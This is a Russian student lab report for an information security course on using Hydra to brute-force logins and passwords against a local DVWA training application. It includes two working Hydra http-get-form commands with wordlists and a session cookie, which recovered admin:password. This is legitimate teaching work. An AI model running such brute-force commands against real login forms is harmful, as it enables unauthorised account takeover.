








---
## Front matter
title: "Отчет по индивидуальному проекту 3"
subtitle: "Дисциплина: Информационная безопасность"
author: "Хрусталев Влад Николаевич"

## Generic otions
lang: ru-RU
toc-title: "Содержание"

## Bibliography
bibliography: bib/cite.bib
csl: pandoc/csl/gost-r-7-0-5-2008-numeric.csl

## Pdf output format
toc: true # Table of contents
toc-depth: 2
lof: true # List of figures
lot: true # List of tables
fontsize: 12pt
linestretch: 1.5
papersize: a4
documentclass: scrreprt
## I18n polyglossia
polyglossia-lang:
  name: russian
  options:
	- spelling=modern
	- babelshorthands=true
polyglossia-otherlangs:
  name: english
## I18n babel
babel-lang: russian
babel-otherlangs: english
## Fonts
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
mainfontoptions: Ligatures=TeX
romanfontoptions: Ligatures=TeX
sansfontoptions: Ligatures=TeX,Scale=MatchLowercase
monofontoptions: Scale=MatchLowercase,Scale=0.9
## Biblatex
biblatex: true
biblio-style: "gost-numeric"
biblatexoptions:
  - parentracker=true
  - backend=biber
  - hyperref=auto
  - language=auto
  - autolang=other*
  - citestyle=gost-numeric
## Pandoc-crossref LaTeX customization
figureTitle: "Рис."
tableTitle: "Таблица"
listingTitle: "Листинг"
lofTitle: "Список иллюстраций"
lotTitle: "Список таблиц"
lolTitle: "Листинги"
## Misc options
indent: true
header-includes:
  - \usepackage{indentfirst}
  - \usepackage{float} # keep figures where there are in the text
  - \floatplacement{figure}{H} # keep figures where there are in the text
---

# Цель работы

Освоение использования Hydra для перебора логинов и паролей.

# Выполнение лабораторной работы

1. Первоначальный этап - создание файла passwords.txt для хранения паролей.

{ #fig:001 width=70% }

2. Затем заполняю passwords.txt соответствующими данными.

{ #fig:002 width=70% }

3. Переключаю настройки безопасности в приложении DVWA.

{ #fig:003 width=70% }

4. Осуществляю анализ URL и кук для последующего тестирования брутфорса.

{ #fig:004 width=70% }

5. Запускаю запрос для перебора паролей из passwords.txt для учетной записи admin. В результате успешно нахожу логин и пароль: admin:password.

```bash
hydra -l admin -P ~/passwords.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=25c69iu24q22euc6hjnj2m0sch;security=low:F=Username and/or password incorrect"
```

{ #fig:005 width=70% }

6. Создаю файл usernames.txt для перебора логинов.

{ #fig:006 width=70% }

7. Заполняю файл usernames.txt соответствующими данными.

{ #fig:007 width=70% }

8. Изменяю запрос, чтобы произвести перебор паролей и логинов из файлов passwords.txt и usernames.txt. В результате успешно нахожу логин и пароль: admin:password.

```bash
hydra -L ~/usernames.txt -P ~/passwords.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=25c69iu24q22euc6hjnj2m0sch;security=low:F=Username and/or password incorrect"
```

{ #fig:008 width=70% }

# Выводы

В результате выполнения лабораторной работы освоил использование Hydra для перебора логинов и паролей, отправляя соответствующие запросы.